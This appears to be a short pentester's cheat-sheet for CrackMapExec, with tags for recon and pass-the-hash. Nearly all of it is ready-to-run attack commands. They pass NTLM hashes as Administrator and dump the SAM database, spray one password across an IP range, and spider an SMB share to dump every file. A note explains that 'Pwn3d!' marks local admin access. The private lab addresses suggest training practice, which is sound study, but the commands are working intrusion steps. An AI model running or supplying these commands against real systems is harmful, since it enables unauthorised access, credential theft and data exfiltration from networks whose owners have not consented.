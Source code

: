 #tool #recon #pth 


https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-null-sessions

🔴 if it shows 'Pwn3d!' that means user has local admin privilege in the machine
#### Pass the hash 

```bash
cme smb 192.168.206.211 -u Administrator -H 7a38310ea6f0027ee955abed1762964b --sam
```

```bash
cme smb 192.168.188.222 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:8f518eb35353d7a83d27e7fe457664e5
```


#### Password Spray IP range

```bash
cme smb 192.168.50.70-76 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

### Dump all files

```bash
cme smb 192.168.216.248/transfer -u 'steven' -p 'fireball' -M spider_plus -o READ_ONLY=false
```

